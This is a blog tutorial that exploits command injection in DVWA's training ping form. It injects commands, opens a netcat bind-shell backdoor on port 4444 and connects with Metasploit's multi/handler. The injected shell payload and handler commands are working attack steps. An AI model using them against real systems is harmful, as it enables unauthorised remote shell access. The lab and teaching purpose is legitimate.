 ```yaml
---
layout: post
section-type: post
has-comments: true
title: "Exploiting Command Injection Vulnerability in DVWA with Metasploit"
category: tech
tags: ["security", "redteam", "dvwa"]
---
```


In this post we'll go through the process of exploiting command injection
vulnerability in [DVWA]({% post_url 2017-04-02-dvwa-kali %}), and gain access to
the server using [Metasploit](https://www.metasploit.com/).

Command Injection is a type of vulnerability that allows attackers to execute
arbitrary commands on the host operating system by manipulating a vulnerable
software that the attacker can interact with. This type of attack is possible
when the application fails to properly validate user input and uses it to
execute shell commands on the host operating system.

To begin, we need to navigate to the _Command Injection_ section of DVWA, which
is designed to ping an IP address. Let's test the section by entering the IP
address `127.0.0.1` and observing the result.

![ci-1](/img/posts/ci/ci-1.png)

As we can see, the _Command Injection_ it's safe to assume that it simply
appends our input to the underlying bash command, and then it sends the result
as part of the returned HTML page. This means that we can use the input field to
execute arbitrary commands on the host operating system.

Let's try appending a list bash command after our input IP address:

```bash
127.0.0.1; ls
```

![ci-2](/img/posts/ci/ci-2.png)

As expected, the _Command Injection_ section executes the appended command and
displays the result. This confirms that we can use this vulnerability to execute
arbitrary commands on the host operating system.

Now, let's create a backdoor on the server by listening on port `4444` using
netcat and redirecting all the incoming bytes to a bash shell:

```bash
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
```

![ci-3](/img/posts/ci/ci-3.png)

As you can see, the page is loading forever, which means that our backdoor is
open and waiting for us.

Next, let's use Metasploit to gain access to the server. We will start
`msfconsole` and use the `exploit/multi/handler` module to open a shell on the
server:

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
exploit
```

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the `LPORT` of `bind_tcp`, since the default one is
`4444`.

As you can see, we are logged in as the `www-data` user, which has limited
privileges. We can't read the `/etc/shadow` file, which contains the user
passwords of the operating system. However, we have all the privileges that the
`www-data` user has and we can potentially modify DVWA or escalate to root by
exploiting a local privilege escalation vulnerability.

As a web developer, it's important to always sanitize your user input and never
pass this data to other applications without validating it first. In this case,
the application should validate the provided IP address and make sure that it's
a valid IP address before passing it to the `ping` command.
